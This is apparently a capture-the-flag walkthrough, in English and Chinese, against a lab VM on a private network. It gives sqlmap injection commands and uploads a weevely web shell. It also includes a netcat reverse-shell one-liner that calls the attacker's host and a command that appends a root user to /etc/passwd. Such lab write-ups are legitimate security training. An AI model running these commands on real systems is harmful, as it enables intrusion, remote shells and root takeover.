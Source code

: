 # host discover
`etdiscover -r 192.168.111.0/24`

# port scan
`nmap -p- 192.168.111.130 -A `
# dir scan
`dirb http://192.168.111.130`
`http://192.168.111.130/robots.txt`
`dirb http://192.168.111.130/m3diNf0` 发现info.php 和绝对路径
`dirb http://192.168.111.130/se3reTdir777/ ` 注意不要扫上一级
![image](https://user-images.githubusercontent.com/1063747/180630122-d9afea4b-3062-47b2-88bd-edd2496c62b3.png)

# web root document path
![image](https://user-images.githubusercontent.com/1063747/180630424-6e62ec60-246f-4ca3-af54-730bb069b59c.png)


# SQL inject
![image](https://user-images.githubusercontent.com/1063747/180630178-ad36abec-e781-40ff-bbbf-39527aaa9323.png)

![image](https://user-images.githubusercontent.com/1063747/180630233-273b8115-0d1e-4ef5-b37a-7dd9a6ffab44.png)

`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --dbs `
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" -D aiweb1 `

# SQL inject get shell
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --os-shell`

![image](https://user-images.githubusercontent.com/1063747/180630495-6ce66948-8ae5-437f-b9e8-7417485d7e64.png)

# weevely oneline torajan
`weevely generate 1 1.php`
the upload 
`sqlmap -u "http://192.168.111.130/se3reTdir777/index.php" --data "uid=2&Operation=Submit" --file-write /home/kali/1.php --file-dest /home/www/html/web1x443290o2sdf92213/se3reTdir777/uploads/1.php`

# Connect
`weevely http://192.168.111.130/se3reTdir777/uploads/1.php 1`

# find root  but failed
found nothing
`find / -user root -perm -4000 -print 2>/dev/null` 
`searchsploit 4.15 `

# kali reverse shell
Running in kali
`nc -lvvp 6666`
running in weevely 反弹shell
`rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.111.128 6666 >/tmp/f &`

# find passwd vuln
```
ls -l /etc/passwd
-rw-r--r-- 1 www-data www-data 1664 Aug 21  2019 /etc/passwd
```
`openssl passwd -1 -salt hacker`
相当于把密码替换掉x 创建新用户
![image](https://user-images.githubusercontent.com/1063747/180631040-4a30ac4c-f7b8-45a3-a082-817335e930d1.png)

`echo 'hacker:$1$hacker$6luIRwdGpBvXdP.GMwcZp/:0:0:root:/root:/usr/bin/zsh' >> /etc/passwd`

# weevely su
这里会失败 weevely 的反弹shell  su 会报错
`:shell_su -user hacker  123456 id`



